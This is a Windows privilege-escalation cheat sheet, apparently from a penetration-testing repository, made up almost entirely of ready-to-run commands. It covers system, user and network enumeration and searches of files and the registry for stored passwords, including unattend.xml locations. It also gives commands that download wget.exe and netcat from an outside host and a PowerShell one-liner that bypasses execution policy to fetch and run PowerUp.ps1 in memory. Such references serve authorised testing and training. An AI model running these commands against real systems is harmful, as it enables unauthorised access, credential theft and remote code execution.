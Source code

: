 # Windows - Privilege Escalation
Almost all of the following commands are from [The Open Source Windows Privilege Escalation Cheat Sheet](https://addaxsoft.com/wpecs/)


## Windows Version and Configuration
```powershell
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

Architecture
```powershell
wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE%
```


List all env variables
```powershell
set
```

List all drives
```powershell
wmic logicaldisk get caption || fsutil fsinfo drives
```

## User Enumeration

Get current username
```powershell
echo %USERNAME% || whoami
```

List all users
```powershell
net user
whoami /all
```

List logon requirements; useable for bruteforcing
```powershell
net accounts
```

Get details about a user (i.e. administrator, admin, current user)
```powershell
net user administrator
net user admin
net user %USERNAME%
```

List all local groups
```powershell
net localgroup
```

Get details about a group (i.e. administrators)
```powershell
net localgroup administrators
```

## Network Enumeration

List all network interfaces
```powershell
ipconfig /all
```

List current routing table
```powershell
route print
```

List the ARP table
```powershell
arp -A
```

List all current connections
```powershell
netstat -ano
```

List firware state and current configuration
```powershell
netsh advfirewall firewall dump
```

List all network shares
```powershell
net share
```

## Looting for passwords

### Search for file contents**
```powershell
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
```

### Search for a file with a certain filename
```powershell
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
```

### Search the registry for key names
```powershell
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K
```

### Read a value of a certain sub key
```powershell
REG QUERY "HKLM\Software\Microsoft\FTH" /V RuleList
```

### Password in unattend.xml
Location of the unattend.xml files
```powershell
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

Example content
```powershell
   <component name="Microsoft-Windows-Shell-Setup" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" processorArchitecture="amd64">
    <AutoLogon>
     <Password>*SENSITIVE*DATA*DELETED*</Password>
     <Enabled>true</Enabled> 
     <Username>Administrateur</Username> 
    </AutoLogon>

    <UserAccounts>
     <LocalAccounts>
      <LocalAccount wcm:action="add">
       <Password>*SENSITIVE*DATA*DELETED*</Password>
       <Group>administrators;users</Group>
       <Name>Administrateur</Name>
      </LocalAccount>
     </LocalAccounts>
    </UserAccounts>
```
The Metasploit module `post/windows/gather/enum_unattend` looks for these files.

## Processes Enum
What processes are running?
```powershell
tasklist /v
```

Which processes are running as "system"
```powershell
tasklist /v /fi "username eq system"
```

Do you have powershell magic?
```powershell
REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion
```


## Uploading / Downloading files
a wget using powershell
```powershell
powershell -Noninteractive -NoProfile -command "wget https://addaxsoft.com/download/wpecs/wget.exe -UseBasicParsing -OutFile %TEMP%\wget.exe"
```

wget using bitsadmin (when powershell is not present)
```powershell
cmd /c "bitsadmin /transfer myjob /download /priority high https://addaxsoft.com/download/wpecs/wget.exe %TEMP%\wget.exe"
```

now you have wget.exe that can be executed from %TEMP%wget for example I will use it here to download netcat
```powershell
%TEMP%\wget https://addaxsoft.com/download/wpecs/nc.exe
```

## Spot the weak service using PowerSploit's PowerUP
```powershell
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
```

## Thanks to
* [The Open Source Windows Privilege Escalation Cheat Sheet by amAK.xyz and @xxByte](https://addaxsoft.com/wpecs/)
* [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [Windows Privilege Escalation Fundamentals](http://www.fuzzysecurity.com/tutorials/16.html)
* [TOP–10 ways to boost your privileges in Windows systems - hackmag](https://hackmag.com/security/elevating-privileges-to-administrative-and-further/)
* [The SYSTEM Challenge](https://decoder.cloud/2017/02/21/the-system-challenge/)